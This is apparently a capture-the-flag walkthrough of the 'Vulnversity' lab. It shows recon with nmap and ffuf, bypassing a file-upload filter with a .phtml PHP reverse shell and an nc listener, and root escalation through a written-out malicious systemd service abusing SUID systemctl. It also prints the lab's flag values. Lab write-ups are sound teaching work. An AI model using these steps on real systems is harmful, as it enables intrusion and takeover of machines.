



# Room Vulnversity </br>
## Learn about active recon, web app attacks and privilege escalation. </br>

### Recon Phase </br>
```nmap -sV -A -p- [ip]``` </br>

We notice that **HTTP** is open on port **3333**. In the browser, we will enter: </br>
```http://[ip]:3333``` </br>

We will try to explore the different possible paths: </br>
```ffuf -u "http://10.129.185.32:3333/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -H "User-Agent: Firefox" -fc 403``` </br>
+++
 </br>

We then type the endpoint at the URL:
```http://[ip]:3333/internal``` </br>

 </br>

Great, we have the option to upload a file. Let's see what types of files are allowed. </br>

For that, we'll bring out our good old friend Burp: <br>
 </br>

After a quick brute-force attack with burp, we see that our upload endpoint accepts **.phtml** files. We then rename our ```shell.php``` file to ```shell.phtml```. </br>
 </br>
The shell.phtml file is a PHP reverse shell file. </br>

We configure a listener ```nc -lvpn [port] ```on our machine and access the file on the page by entering ```http:[ip]:3333/internal/uploads/shell.phtml` </br>

The shell connects and we have the user.txt file. </br>
```bash
$ cat user.txt 8bd7992fbe8a6ad22a63361004cfcedb 
```
</br>

### Prvilege Escalation </br>
For this, we will use the command 
```bash
find / -user root -perm -4000 -exec ls -ldb {} + 2>/dev/null
``` 
to identify vulnerable SUID binaries </br>

We see a binary file named 
```bash
/usr/bin/systemctl
```
</br>

If **/bin/systemctl** has the **SUID** bit *(-rwsr-xr-x belonging to root)*, any local user can generate a malicious **service** and request systemctl to run it. </br>

```bash
$ TF=$(mktemp).service
$ echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/sh /tmp/sh && chmod u+s /tmp/sh"
[Install]
WantedBy=multi-user.target' > $TF
$ systemctl link $TF
$ systemctl enable --now $TF
$ /tmp/sh -p
/# cat /root/root.txt
/#a58ff8579f0a9270368d33a9966c7fd5
```


